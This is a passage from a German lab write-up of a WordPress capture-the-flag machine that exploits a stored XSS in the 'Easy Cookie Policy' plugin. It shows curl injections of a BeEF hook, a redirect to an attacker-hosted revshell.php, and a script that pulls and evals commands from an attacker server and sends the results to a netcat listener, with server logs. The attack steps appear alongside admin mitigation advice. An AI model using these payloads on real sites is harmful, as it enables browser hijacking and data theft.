**POC Schritt 2: Injektion eines BeEF-Hooks** Da der direkte Cookie-Diebstahl für Sitzungscookies aufgrund des `HttpOnly`-Flags wahrscheinlich nicht zum Erfolg führt, versuchen wir nun, einen BeEF-Hook zu injizieren.
[-] You are using the Default credentials
[-] (Password must be different from "beef")
[-] Please type a new password for the beef user:
[i] GeoIP database is missing
[i] Run geoipupdate to download / update Maxmind GeoIP database
[*] Please wait for the BeEF service to start.
[*]
[*] You might need to refresh your browser once it opens.
[*]
[*] Web UI: http://127.0.0.1:3000/ui/panel
[*] Hook: <script src="http://<IP>:3000/hook.js"></script>
[*] Example: <script src="http://127.0.0.1:3000/hook.js"></script>
● beef-xss.service - beef-xss
Loaded: loaded (/usr/lib/systemd/system/beef-xss.service; disabled; preset: disabled)
Active: active (running) since Tue 2025-05-27 01:29:31 CEST; 5s ago
Invocation: 4f2e92c9073c42909129058b961965b7
Main PID: 115635 (ruby)
Tasks: 4 (limit: 59379)
Memory: 130.8M (peak: 233.9M)
CPU: 5.433s
CGroup: /system.slice/beef-xss.service
└─115635 ruby ./beef
Mai 27 01:29:31 CCat systemd[1]: Started beef-xss.service - beef-xss.
Mai 27 01:29:33 CCat beef-include-vendor[115635]: [ 1:29:32][*] Browser Exploitation Fram….4.0
Mai 27 01:29:33 CCat beef-include-vendor[115635]: [ 1:29:32] | Twit: @beefproject
Mai 27 01:29:33 CCat beef-include-vendor[115635]: [ 1:29:32] | Site: https://beefpro….com
Mai 27 01:29:33 CCat beef-include-vendor[115635]: [ 1:29:32] |_ Wiki: https://github.…wiki
Mai 27 01:29:33 CCat beef-include-vendor[115635]: [ 1:29:32][*] Project Creator: Wade Alc…orn)
Mai 27 01:29:33 CCat beef-include-vendor[115635]: [ 1:29:33][*] BeEF is loading. Wait a f…s...
Hint: Some lines were ellipsized, use -l to show in full.
[*] Opening Web UI (http://127.0.0.1:3000/ui/panel) in: 5... 4... 3... 2... 1...
**Analyse:**
Der Befehl `beef-xss` startet das Browser Exploitation Framework (BeEF).
* BeEF ist ein mächtiges Tool, das sich auf die Ausnutzung von Web-Browsern konzentriert.
* Nach dem Start fordert BeEF zur Eingabe eines neuen Passworts für den `beef`-Benutzer auf (Standardpasswort sollte geändert werden).
* Es zeigt die URL für die Web-Benutzeroberfläche (`http://127.0.0.1:3000/ui/panel`) und das grundlegende Hook-Skript (`< scpt src="http://
**Bewertung:** BeEF wurde erfolgreich gestartet. Dies ist die Vorbereitung, um einen Hook im Browser des Opfers zu platzieren. Sobald ein Browser diesen Hook lädt, wird er in der BeEF-UI als "gehookter Browser" angezeigt und kann über verschiedene Module ferngesteuert werden.
**Empfehlung (Pentester):**
1. **IP-Adresse im Hook anpassen:** Stelle sicher, dass im Hook-Skript die korrekte, vom Ziel erreichbare IP-Adresse deines Kali-Systems verwendet wird (z.B. `< scpt src='http://192.168.2.199:3000/hook.js'>< scpt `).
2. **Hook injizieren:** Verwende den `curl`-Befehl (ähnlich wie beim Cookie-Stealer), um diesen BeEF-Hook-Payload in die Einstellungen des "Easy Cookie Policy"-Plugins zu injizieren.
3. **BeEF UI überwachen:** Behalte die BeEF-Web-UI im Auge, um zu sehen, wann sich ein Browser (der Admin-Bot) einhakt.
**Empfehlung (Admin):**
Die Verwendung von BeEF zeigt, dass XSS-Schwachstellen weit mehr als nur Cookie-Diebstahl ermöglichen. Angreifer können die Kontrolle über den Browser des Opfers erlangen. Dies unterstreicht erneut die Dringlichkeit, die XSS-Lücke zu schließen. Netzwerk-Firewalls und Intrusion Detection Systeme könnten versuchen, die Kommunikation zum BeEF C&C-Server zu erkennen und zu blockieren, aber dies ist oft schwierig, wenn die Kommunikation über Standard-HTTP-Ports erfolgt.
{"status":"OK","text":"Configuration data updated","url":"http:\/\/shemhamphorash.local\/sitecore","cookie":"easy_cookies_policy_warning"}
**Analyse:** Dieser `curl`-Befehl ist fast identisch mit dem vorherigen, der den Cookie-Stealer injiziert hat. Der Hauptunterschied ist der Payload im `maintext`-Parameter: * `maintext=< scpt src='http://192.168.2.199:3000/hook.js'>< scpt >`: Hier wird nun das BeEF-Hook-Skript von meinem Kali-System (`192.168.2.199`) auf Port 3000 geladen. Der Login-Cookie des Benutzers `blessed` wird wieder verwendet, um die Aktion zu authentifizieren. Der `button_text` wurde zu "BeEFed!" geändert. Die Antwort `{"status":"OK",...}` bestätigt, dass der BeEF-Hook erfolgreich in den Einstellungen des Plugins gespeichert wurde.
**Bewertung:** **Der BeEF-Hook wurde erfolgreich injiziert!** Dies ist ein signifikanter Fortschritt. Wenn nun ein Benutzer (der Admin-Bot) eine Seite besucht, auf der der Cookie-Hinweis angezeigt wird, wird sein Browser das `hook.js`-Skript von meinem BeEF-Server laden und ausführen. Sein Browser wird dann in meiner BeEF-Konsole als "gehookt" erscheinen.
**Empfehlung (Pentester):**
1. **BeEF-UI beobachten:** Überwache die BeEF-Web-UI (`http://127.0.0.1:3000/ui/panel`) auf neue "Online Browsers".
2. **Bot triggern:** Stelle sicher, dass der Admin-Bot die Webseite besucht.
3. **Module ausführen:** Sobald der Browser des Opfers gehakt ist, verwende die verschiedenen BeEF-Module, um Informationen zu sammeln (z.B. Screenshots, Zwischenablage, Tastatureingaben, interne IP) oder Aktionen auszuführen (z.B. Umleitung auf andere Seiten, Ausführen von JavaScript-Befehlen, Social Engineering Angriffe). Das Ziel könnte sein, Admin-Aktionen im WordPress-Backend durchzuführen oder weitere Informationen für eine Privilege Escalation auf dem Server zu sammeln.
**Empfehlung (Admin):**
Dies ist ein kritisches Szenario. Neben der sofortigen Behebung der XSS-Schwachstelle:
* **Netzwerk-Monitoring:** Überwache ausgehende Verbindungen vom Webserver und von Client-Systemen zu verdächtigen IPs/Ports (wie `192.168.2.199:3000` in diesem Fall).
* **Content Security Policy (CSP):** Implementiere eine strikte CSP, die das Laden von Skripten nur von vertrauenswürdigen Quellen erlaubt. Dies hätte das Laden des `hook.js` von einer externen IP verhindern können.

Das Bild `hook_per_beef.jpg` zeigt die BeEF-Web-UI. In der linken Spalte unter "Online Browsers" ist nun ein neuer Eintrag erschienen, typischerweise mit der IP-Adresse des Opfers (hier wahrscheinlich `192.168.2.203`, der Admin-Bot) und Informationen zum Browser (z.B. Chrome unter Linux). Dies bestätigt, dass der BeEF-Hook erfolgreich vom Browser des Opfers ausgeführt wurde und eine Verbindung zum BeEF-Server hergestellt hat. Der Browser ist nun "gehookt" und kann ferngesteuert werden.
Das Bild `hook_per_beef_cookie.jpg` zeigt einen Ausschnitt aus der BeEF-UI, wahrscheinlich den Reiter "Logs" oder "Commands" für den gehookten Browser. Hier werden die Cookies des gehookten Browsers angezeigt, die BeEF auslesen konnte. Man sieht den `wordpress_logged_in_...` Cookie und den `wordpress_test_cookie`. Dies ist interessant, da der vorherige `document.cookie`-Payload diese anscheinend nicht exfiltrieren konnte. BeEF verwendet möglicherweise ausgefeiltere Techniken oder hat Zugriff auf eine andere Ebene der Browser-API, oder die Annahme, dass der Sitzungscookie `HttpOnly` war, war nicht für alle Kontexte korrekt, oder der Admin-Bot hat möglicherweise andere Cookie-Einstellungen. Es ist auch möglich, dass der Screenshot eine Funktion von BeEF zeigt, die Anfragen im Namen des gehookten Browsers sendet und die Cookies aus den resultierenden HTTP-Antworten extrahiert, anstatt sie direkt via `document.cookie` zu lesen. Das Vorhandensein des Admin-Cookies in BeEF ist ein sehr kritischer Fund.
Das Bild `network_Beef.jpg` zeigt wahrscheinlich eine weitere Ansicht innerhalb von BeEF, möglicherweise den "Network"-Tab unter den Modulen, der ausgehende oder eingehende Anfragen im Kontext des gehookten Browsers anzeigt, oder die Ergebnisse eines Netzwerk-Scan-Moduls, das vom gehookten Browser aus gestartet wurde, um das interne Netzwerk des Opfers zu scannen . Dies könnte Aufschluss über die interne Netzwerkstruktur geben, zu der der Opfer-Browser Zugriff hat.
**Risikobewertung (XSS):** Die erfolgreiche Ausnutzung der Stored XSS-Schwachstelle stellt ein **hohes bis kritisches** Risiko dar. Durch die Injektion eines BeEF-Hooks konnte die Kontrolle über die Browsersitzung eines Opfers (potenziell eines Administrators) erlangt werden. Dies ermöglicht: * Diebstahl von Sitzungscookies (auch wenn `HttpOnly` aktiv ist, kann BeEF Anfragen im Namen des Benutzers senden). * Ausführung von Aktionen im Namen des Opfers innerhalb der Webanwendung (z.B. Ändern von Einstellungen, Erstellen von Benutzern, Löschen von Daten). * Ausspähen von sensiblen Informationen, die im Browser angezeigt werden. * Phishing-Angriffe oder Umleitung auf bösartige Webseiten. * Scannen des internen Netzwerks des Opfers. * Keylogging und andere clientseitige Angriffe. Wenn das Opfer Admin-Rechte in WordPress hat, kann dies zur vollständigen Kompromittierung der WordPress-Instanz und potenziell des darunterliegenden Servers führen (z.B. durch Hochladen einer Webshell).
**Empfehlungen (XSS):** * **Für den Pentester:** Nutze den gehookten Browser in BeEF, um weitere Aktionen durchzuführen. Priorität sollte sein, Admin-Rechte in WordPress zu erlangen oder zu missbrauchen, um eine Webshell hochzuladen oder eine Reverse Shell zu etablieren. * **Für den Administrator:** 1. **Plugin `easy-cookies-policy` sofort patchen/entfernen.** 2. **WordPress und alle Plugins/Themes auf den neuesten Stand bringen.** 3. **Sicherheitsheader implementieren:** `Content-Security-Policy` (CSP), `X-Frame-Options`, `X-Content-Type-Options`. 4. **Input-Validierung und Output-Encoding:** Grundlegende Maßnahmen gegen XSS in allen Webanwendungsteilen sicherstellen. 5. **Regelmäßige Sicherheitsaudits und Scans** (z.B. mit `wpscan`). 6. **Sitzungsmanagement überprüfen:** Sicherstellen, dass Sitzungscookies als `HttpOnly` und `Secure` markiert sind.
Privilege Escalation
Nachdem wir einen ersten Zugriff auf das System oder eine Anwendung darauf erlangt haben (hier über WordPress-Anmeldeinformationen und die Ausnutzung einer XSS-Schwachstelle), ist das nächste Ziel in der Privilege Escalation-Phase, unsere Rechte auf dem System zu erhöhen. Das ultimative Ziel ist es oft, Root-Rechte zu erlangen.
curl -X POST 'http://shemhamphorash.local/sitecore/wp-admin/admin-ajax.php' \ -H 'Cookie: wordpress_logged_in_b0701dcfcb81ecfdbc03102527da7cda=blessed%7C1748523509%7CDOGuCKygWRS0Qwudka8zrMI80Rtoot0TjpbMim0rshv%
7Cfdd8b935d53965dd7b21cff726ada122eff0dc7544b03e994563d241a5edd63e' \ --data-urlencode "action=easy_cookies_policy_save_settings" \ --data-urlencode "maintext=<script>window.location.href='http://192.168.2.199:8000/revshell.php';</script>" \ --data-urlencode "background=black" \ --data-urlencode "transparency=100" \ --data-urlencode "close=accept" \ --data-urlencode "expires=30" \ --data-urlencode "enabled=true" \ --data-urlencode "display=onpage" \ --data-urlencode "position=top" \ --data-urlencode "button_text=Loading Shell..." \ --data-urlencode "text_color=#ffffff"
**Analyse:** Dieser `curl`-Befehl ist ein weiterer Versuch, die Stored XSS-Schwachstelle im "Easy Cookie Policy"-Plugin auszunutzen. Diesmal ist der Payload im `maintext`-Parameter: `maintext=< script >window.location.href='http://192.168.2.199:8000/revshell.php';` Dieser JavaScript-Code versucht, den Browser des Opfers auf die URL `http://192.168.2.199:8000/revshell.php` umzuleiten. Die Annahme ist, dass `revshell.php` ein auf meinem Angreifer-System (192.168.2.199:8000) gehostetes PHP-Skript ist, das versucht, eine Reverse Shell zum Angreifer zurück aufzubauen, ausgeführt im Kontext des Webservers (www-data). Der `blessed`-Cookie wird wieder für die Authentifizierung verwendet.
**Bewertung:** Dies ist ein Versuch, von der clientseitigen XSS (Ausführung im Browser des Opfers) zu einer serverseitigen Codeausführung zu gelangen, indem der Browser des Opfers (dessen Identität wir über den `blessed`-Cookie nutzen) dazu gebracht wird, eine Aktion auszulösen, die serverseitig eine Reverse Shell startet. Ob dies funktioniert, hängt davon ab, ob: 1. Der Benutzer `blessed` die Rechte hat, Aktionen auszulösen, die `revshell.php` irgendwie auf dem Zielserver ausführen (z.B. wenn `revshell.php` bereits auf dem Zielserver liegt und durch einen Parameter in der URL getriggert wird). 2. Oder, wahrscheinlicher, `revshell.php` ist ein Payload, der *vom Opfer-Browser heruntergeladen und ausgeführt* werden soll, was bei einer PHP-Datei im Browserkontext nicht direkt zu einer Server-Shell führt. Browser führen PHP nicht aus. Wahrscheinlicher ist die Absicht, dass der Bot (der die Seite mit der XSS besucht) durch diese Umleitung eine Aktion auslöst, die der XSS-Payload selbst nicht direkt durchführen kann. Wenn `revshell.php` auf meinem Angreifer-Server liegt und eine Reverse-Shell für *meinen* Server bereitstellt, die das Opfer *auf dem Zielserver* ausführen soll, dann ist die Logik hier fehlerhaft, da der Browser des Opfers nur die PHP-Datei herunterladen würde. Die nachfolgenden Python-Server-Logs zeigen wiederholte GET-Anfragen für `/revshell.php`, was bedeutet, dass der Browser des Bots (Opfer-IP `.203`) tatsächlich versucht, diese Datei von meinem Server zu laden.
**Empfehlung (Pentester):**
Dieser Ansatz, eine PHP-Reverse-Shell durch Umleitung des Opfer-Browsers auf eine `.php`-Datei auf dem Angreifer-Server zu erhalten, wird so nicht funktionieren, um eine Shell auf dem *Ziel-Webserver* zu bekommen. Browser führen kein PHP aus.
Um serverseitige Codeausführung über WordPress zu erreichen (wenn `blessed` Admin ist):
1. Theme-/Plugin-Editor: PHP-Code direkt in Theme- oder Plugin-Dateien einfügen.
2. Plugin-Upload: Ein bösartiges Plugin mit einer Webshell oder Reverse-Shell-Funktionalität hochladen.
Der aktuelle Payload ist eher geeignet, um den Opfer-Browser zu einer bestimmten Seite zu zwingen, aber nicht, um serverseitigen PHP-Code auf dem Ziel auszuführen, es sei denn, `revshell.php` wäre bereits auf dem Zielserver und würde durch diese URL getriggert.
**Empfehlung (Admin):**
Die XSS-Schwachstelle ist das Kernproblem. Wenn ein Angreifer den Browser eines Administrators kontrolliert, kann er versuchen, den Administrator dazu zu bringen, Aktionen auszuführen (z.B. Dateien hochzuladen, Code auszuführen), auch wenn der direkte Weg über eine `window.location.href`-Änderung zu einer `.php`-Datei auf dem Angreiferserver keine direkte serverseitige Shell ergibt.
{"status":"OK","text":"Configuration data updated","url":"http:\/\/shemhamphorash.local\/sitecore","cookie":"easy_cookies_policy_warning"}
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
192.168.2.203 - - [27/May/2025 15:00:00] "GET /revshell.php HTTP/1.1" 200 -
192.168.2.203 - - [27/May/2025 15:01:02] "GET /revshell.php HTTP/1.1" 304 -
192.168.2.203 - - [27/May/2025 15:02:00] "GET /revshell.php HTTP/1.1" 304 -
192.168.2.203 - - [27/May/2025 15:03:00] "GET /revshell.php HTTP/1.1" 304 -
192.168.2.203 - - [27/May/2025 15:04:01] "GET /revshell.php HTTP/1.1" 304 -
192.168.2.203 - - [27/May/2025 15:05:00] "GET /revshell.php HTTP/1.1" 304 -
^C
Keyboard interrupt received, exiting.
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ... 192.168.2.203 - - [27/May/2025 15:07:01] "GET /xss_handler.js HTTP/1.1" 200 - 192.168.2.203 - - [27/May/2025 15:07:01] code 404, message File not found 192.168.2.203 - - [27/May/2025 15:07:01] "GET /commands.txt?r=0.4878505643278839 HTTP/1.1" 404 - 192.168.2.203 - - [27/May/2025 15:07:06] code 404, message File not found 192.168.2.203 - - [27/May/2025 15:07:06] "GET /commands.txt?r=0.3139774066381831 HTTP/1.1" 404 - 192.168.2.203 - - [27/May/2025 15:07:11] code 404, message File not found 192.168.2.203 - - [27/May/2025 15:07:11] "GET /commands.txt?r=0.288203525016272 HTTP/1.1" 404 -
**Analyse:** Im ersten `curl`-Befehl wird nun der `xss_handler.js` über die XSS-Schwachstelle injiziert: `maintext=< script src='http://192.168.2.199:8000/xss_handler.js'>` Dies ist ein besserer Ansatz als der vorherige Versuch mit `revshell.php`, da `xss_handler.js` darauf ausgelegt ist, interaktiv Befehle von meinem Server (`commands.txt` oder `commands2.txt`) zu laden und auszuführen. Die Python-Server-Logs zeigen: 1. Zuerst die wiederholten (erfolglosen) Versuche des Opfer-Browsers (`192.168.2.203`), `revshell.php` zu laden. Dies bestätigt, dass der vorherige XSS-Payload (Umleitung auf `revshell.php`) aktiv war. 2. Nachdem ich `xss_handler.js` bearbeitet (`vi xss_handler.js`) und den Python-Server neu gestartet habe, sehen wir: * `GET /xss_handler.js HTTP/1.1" 200 -`: Der Opfer-Browser lädt erfolgreich `xss_handler.js`. * Danach folgen mehrere `GET /commands.txt?r=... HTTP/1.1" 404 -`-Anfragen. Dies bedeutet, dass `xss_handler.js` ausgeführt wird und versucht, die Datei `commands.txt` von meinem Server zu laden, diese Datei aber zu diesem Zeitpunkt nicht auf meinem Python-Server im Hauptverzeichnis vorhanden ist (daher Status 404 - File not found). Der `xss_handler.js` selbst (wie zuvor analysiert) ist so konfiguriert, dass er `commands2.txt` laden soll. Dass hier `commands.txt` angefragt wird, deutet darauf hin, dass ich entweder: * eine ältere Version von `xss_handler.js` verwendet habe, die noch `commands.txt` referenziert, oder * den Dateinamen in `xss_handler.js` während der Bearbeitung mit `vi` auf `commands.txt` geändert habe, oder * mehrere Versionen des Handlers im Umlauf waren.
**Bewertung:** Der Wechsel zur Injektion von `xss_handler.js` ist ein logischer nächster Schritt und weitaus vielversprechender. Die erfolgreiche Ausführung von `xss_handler.js` im Opfer-Browser wird durch die Anfrage an `/xss_handler.js` im Python-Server-Log bestätigt. Die anschließenden 404-Fehler für `commands.txt` zeigen, dass der Handler funktioniert, aber die Steuerdatei fehlt. Dies ist ein Konfigurationsproblem auf meiner Seite (Angreifer-Seite).
**Empfehlung (Pentester):**
1. **Steuerdatei bereitstellen:** Erstelle die Datei `commands.txt` (oder `commands2.txt`, je nachdem, was `xss_handler.js` aktuell erwartet) im Stammverzeichnis deines Python-HTTP-Servers (`~/Hackingtools/shells/`, wenn der Server von dort gestartet wird).
2. **Einfachen Befehl testen:** Füge einen einfachen JavaScript-Befehl in `commands.txt` ein, um die Funktionalität zu testen, z.B. `alert('XSS Handler Works!');` oder einen Befehl, der Informationen an den Netcat-Listener sendet.
3. **Listener überwachen:** Überwache sowohl den Python-Server-Log (um zu sehen, ob `commands.txt` geladen wird) als auch den Netcat-Listener auf Port 9001 (um die Ergebnisse der ausgeführten Befehle zu empfangen).
**Empfehlung (Admin):**
Dies zeigt, wie persistent ein Angreifer sein kann, um eine XSS-Schwachstelle auszunutzen. Die Fähigkeit, dynamisch Skripte nachzuladen, macht den Angriff sehr flexibel. CSP ist hier eine wichtige Verteidigungslinie, um das Laden von Skripten von nicht vertrauenswürdigen Quellen zu unterbinden.
listening on [any] 9001 ... connect to [192.168.2.199] from (UNKNOWN) [192.168.2.203] 59316 GET /?data=%7B%22status%22%3A%22xss_handler_loaded%22%2C%22page_title%22%3A%22Shemhamphorash%20%E2%80%93%20Just%20another%20WordPress%20site%22%2C%22location%22%3A%22http%3A%2F%2Fshemhamphorash.local%2Fsitecore%2F%22%7D HTTP/1.1 Host: 192.168.2.199:9001 Connection: keep-alive User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.60 Safari/537.36 Accept: image/avif,image/webp,image/apng,image/svg+xml,image/*,*/*;q=0.8 Referer: http://shemhamphorash.local/ Accept-Encoding: gzip, deflate Accept-Language: en-US,en;q=0.9
**Analyse:** Der Netcat-Listener empfängt Daten vom Opfer-Browser (`192.168.2.203`). Die URL-dekodierten Daten im `data`-Parameter sind: `{"status":"xss_handler_loaded","page_title":"Shemhamphorash – Just another WordPress site","location":"http://shemhamphorash.local/sitecore/"}` Dies ist die initiale Statusmeldung, die `xss_handler.js` sendet, wenn es erfolgreich geladen und ausgeführt wird, bevor es versucht, die `commands.txt`-Datei zu laden. Dies bestätigt, dass der `xss_handler.js` (oder eine Version davon) im Browser des Opfers aktiv ist.
**Bewertung:** Sehr gut, die Ausführung des Haupt-Handlers wird hier bestätigt. Die empfangenen Daten (Seitentitel, URL) sind nützlich, um den Kontext zu verstehen, in dem das XSS-Skript läuft. Jetzt fehlt nur noch die erfolgreiche Übermittlung und Ausführung von Befehlen aus der `commands.txt`-Datei.
**Empfehlung (Pentester):**
Wie zuvor: Stelle sicher, dass die `commands.txt` (oder `commands2.txt`) korrekt auf dem Python-Server bereitliegt und einen gültigen JavaScript-Befehl enthält.
**Empfehlung (Admin):**
Die Empfehlungen bleiben dieselben. Die kontinuierlichen Verbindungen zum Angreifer-Listener zeigen die Aktivität des XSS-Payloads.
document.documentElement.outerHTML;
listening on [any] 9001 ... connect to [192.168.2.199] from (UNKNOWN) [192.168.2.203] 59442 GET /?data=%7B%22status%22%3A%22xss_handler_loaded%22%2C%22page_title%22%3A%22Shemhamphorash%20%E2%80%93%20Just%20another%20WordPress%20site%22%2C%22location%22%3A%22http%3A%2F%2Fshemhamphorash.local%2Fsitecore%2F%22%7D HTTP/1.1 Host: 192.168.2.199:9001 Connection: keep-alive User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.60 Safari/537.36 Accept: image/avif,image/webp,image/apng,image/svg+xml,image/*,*/*;q=0.8 Referer: http://shemhamphorash.local/ Accept-Encoding: gzip, deflate Accept-Language: en-US,en;q=0.9
**Analyse:** Ich erstelle nun die Datei `~/Hackingtools/shells/commands.txt` und füge den JavaScript-Befehl `document.documentElement.outerHTML;` ein. Dieser Befehl gibt den gesamten HTML-Quellcode der aktuellen Seite zurück. Der nachfolgende Netcat-Log zeigt jedoch *immer noch* nur die initiale Statusmeldung vom `xss_handler.js` (`{"status":"xss_handler_loaded",...}`). Es wird kein Ergebnis des `document.documentElement.outerHTML;`-Befehls an den Listener gesendet, und im vorherigen Python-Log sahen wir, dass `commands.txt` mit 404 nicht gefunden wurde. Es scheint eine Diskrepanz zu geben: 1. Der `xss_handler.js` (Version, die `commands.txt` anfordert) wird ausgeführt. 2. Die Datei `commands.txt` wurde jetzt zwar erstellt, aber der Python-Server muss neu gestartet werden oder die Datei muss im richtigen Verzeichnis liegen, damit der Handler sie findet. 3. Oder die Version von `xss_handler.js`, die gerade aktiv ist, heißt intern immer noch `commands2.txt` (wie im Code gezeigt), und die Erstellung von `commands.txt` hilft nicht. Da die Python-Server-Logs zuvor zeigten, dass `commands.txt` mit einem 404-Fehler nicht gefunden wurde, muss sichergestellt werden, dass der Python-HTTP-Server aus dem Verzeichnis `~/Hackingtools/shells/` gestartet wird oder dass die Datei `commands.txt` im Stammverzeichnis des Servers liegt, von dem er aktuell bedient.
**Bewertung:** Obwohl die Steuerdatei `commands.txt` jetzt mit einem nützlichen Befehl erstellt wurde, gibt es immer noch ein Problem bei der Zustellung oder Verarbeitung dieser Datei durch `xss_handler.js`. Die initiale Verbindung vom Handler kommt an, aber die Befehlsausführung scheint noch nicht zu funktionieren.
**Empfehlung (Pentester):**
1. **Dateiname und Pfad prüfen:** Stelle sicher, dass der Dateiname in `xss_handler.js` (entweder `commands.txt` oder `commands2.txt`) mit der tatsächlich erstellten Datei übereinstimmt.
2. **Python-Server-Verzeichnis:** Überprüfe, aus welchem Verzeichnis der `python3 -m http.server 8000` gestartet wird. Die Datei `commands.txt` (oder `commands2.txt`) muss in diesem Stammverzeichnis liegen.
3. **Python-Server neu starten:** Nach dem Erstellen/Ändern der `commands.txt`-Datei den Python-Server neu starten, um sicherzustellen, dass er die aktuelle Verzeichnisstruktur bedient.
4. **Cache im Handler:** Der `xss_handler.js` verwendet `?r=' + Math.random()` beim Abrufen der Befehlsdatei, was Caching verhindern sollte. Dies ist also wahrscheinlich nicht das Problem.
5. **Netcat-Listener beobachten:** Weiterhin den Listener für Ergebnisse überwachen.
**Empfehlung (Admin):**
Keine neuen Empfehlungen, da dies interne Schritte des Angreifers zur Fehlerbehebung seines Exploits sind.
'BOT_IS_ACTIVE_AND_READING_COMMANDS';
listening on [any] 9001 ...
connect to [192.168.2.199] from (UNKNOWN) [192.168.2.203] 60226
GET /?handler_status=%7B%0A%20%20%22status%22%3A%20%22xss_handler_debug_v2_loaded%22%2C%0A%20%20%22page_title%22%3A%20%22Shemhamphorash%20%E2%80%93%20Just%20another%20WordPress%20site%22%2C%0A%20%20%22location%22%3A%20%22http%3A%2F%2Fshemhamphorash.local%2Fsitecore%2F%22%2C%0A%20%20%22user_agent%22%3A%20%22Mozilla%2F5.0%20(X11%3B%20Linux%20x86_64)%20AppleWebKit%2F537.36%20(KHTML%2C%20like%20Gecko)%20Chrome%2F100.0.4896.60%20Safari%2F537.36%22%0A%7D HTTP/1.1
Host: 192.168.2.199:9001
Connection: keep-alive
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.60 Safari/537.36
Accept: image/avif,image/webp,image/apng,image/svg+xml,image/,/*;q=0.8
Referer: http://shemhamphorash.local/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
listening on [any] 9001 ...
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ... 192.168.2.203 - - [27/May/2025 15:38:01] "GET /xss_handler.js HTTP/1.1" 304 - 192.168.2.203 - - [27/May/2025 15:38:01] "GET /commands2.txt?r=0.29605442420029804 HTTP/1.1" 200 - 192.168.2.203 - - [27/May/2025 15:38:08] "GET /commands2.txt?r=0.042833484650171005 HTTP/1.1" 200 - 192.168.2.203 - - [27/May/2025 15:38:16] "GET /commands2.txt?r=0.5592573648723842 HTTP/1.1" 200 -
**Analyse:** Jetzt wird die Datei `commands2.txt` erstellt (passend zum Dateinamen im Code von `xss_handler.js`) und mit dem einfachen String `'BOT_IS_ACTIVE_AND_READING_COMMANDS';` befüllt. Dieser String, wenn von `eval()` ausgeführt, gibt einfach den String selbst zurück. Der Python-HTTP-Server wird neu gestartet, diesmal im Verzeichnis `~/Hackingtools/shells/`, wo sich `xss_handler.js` und `commands2.txt` befinden. Die Logs zeigen nun Erfolg: * **Netcat-Listener:** Empfängt eine Statusmeldung vom `xss_handler.js` (wahrscheinlich eine aktualisierte Version, da `status: "xss_handler_debug_v2_loaded"`). Die URL-dekodierten Daten sind: `{"status": "xss_handler_debug_v2_loaded", "page_title": "Shemhamphorash – Just another WordPress site", "location": "http://shemhamphorash.local/sitecore/", "user_agent": "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.60 Safari/537.36"}`. * **Python-Server-Log:** * `GET /xss_handler.js HTTP/1.1" 304 -`: Der Browser des Opfers hat `xss_handler.js` bereits im Cache (Status 304 - Not Modified), lädt ihn aber trotzdem (oder führt die gecachte Version aus). * `GET /commands2.txt?r=... HTTP/1.1" 200 -`: **Erfolg!** Der `xss_handler.js` lädt nun erfolgreich die Datei `commands2.txt` (Status 200 - OK). Die wiederholten Anfragen für `commands2.txt` deuten darauf hin, dass der Handler die Datei möglicherweise in einem Intervall neu lädt oder dass der Bot die Seite mehrmals besucht/aktualisiert. Der nächste Netcat-Log zeigt dann die Ergebnisse der Ausführung des Befehls aus `commands2.txt`.
**Bewertung:** **Ausgezeichnet! Die interaktive XSS-Steuerung funktioniert jetzt.** Der `xss_handler.js` wird vom Opfer geladen, dieser lädt wiederum erfolgreich die Befehlsdatei `commands2.txt` von meinem Server. Der Inhalt von `commands2.txt` (`'BOT_IS_ACTIVE_AND_READING_COMMANDS';`) wird mit `eval()` ausgeführt. Das Ergebnis dieser Ausführung (der String selbst) wird dann vom `xss_handler.js` an den Netcat-Listener auf Port 9001 gesendet. Dies wird im nächsten Log-Ausschnitt sichtbar.
**Empfehlung (Pentester):**
1. **Komplexere Befehle:** Ändere den Inhalt von `commands2.txt` nun zu nützlicheren JavaScript-Befehlen, um mehr Informationen zu sammeln oder Aktionen durchzuführen:
* `document.cookie` (um erneut nicht-HttpOnly-Cookies zu prüfen)
* `JSON.stringify(localStorage)` und `JSON.stringify(sessionStorage)` (um Web Storage auszulesen)
* `document.documentElement.outerHTML` (um den gesamten Seiten-DOM zu erhalten)
* Versuche, AJAX-Anfragen an WordPress-interne Endpunkte zu senden (z.B. um Benutzerlisten abzurufen, Nonces für Aktionen zu extrahieren, wenn der Bot Admin-Rechte hat).
2. **Listener beobachten:** Den Netcat-Listener genau beobachten, um die Ergebnisse der ausgeführten Befehle zu empfangen.
**Empfehlung (Admin):**
Keine neuen Empfehlungen. Die Situation verschärft sich für den Admin, da der Angreifer nun eine funktionierende Methode hat, um beliebigen JavaScript-Code im Browser des Opfers auszuführen und die Ergebnisse zu empfangen.
connect to [192.168.2.199] from (UNKNOWN) [192.168.2.203] 60364 GET /?handler_status=%7B%0A%20%20%22status%22%3A%20%22xss_handler_debug_v2_loaded%22%2C%0A%20%20%22page_title%22%3A%20%22Shemhamphorash%20%E2%80%93%20Just%20another%20WordPress%20site%22%2C%0A%20%20%22location%22%3A%20%22http%3A%2F%2Fshemhamphorash.local%2Fsitecore%2F%22%2C%0A%20%20%22user_agent%22%3A%20%22Mozilla%2F5.0%20(X11%3B%20Linux%20x86_64)%20AppleWebKit%2F537.36%20(KHTML%2C%20like%20Gecko)%20Chrome%2F100.0.4896.60%20Safari%2F537.36%22%0A%7D HTTP/1.1 Host: 192.168.2.199:9001 Connection: keep-alive User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.60 Safari/537.36 Accept: image/avif,image/webp,image/apng,image/svg+xml,image/*,*/*;q=0.8 Referer: http://shemhamphorash.local/ Accept-Encoding: gzip, deflate Accept-Language: en-US,en;q=0.9 listening on [any] 9001 ... connect to [192.168.2.199] from (UNKNOWN) [192.168.2.203] 60478 GET 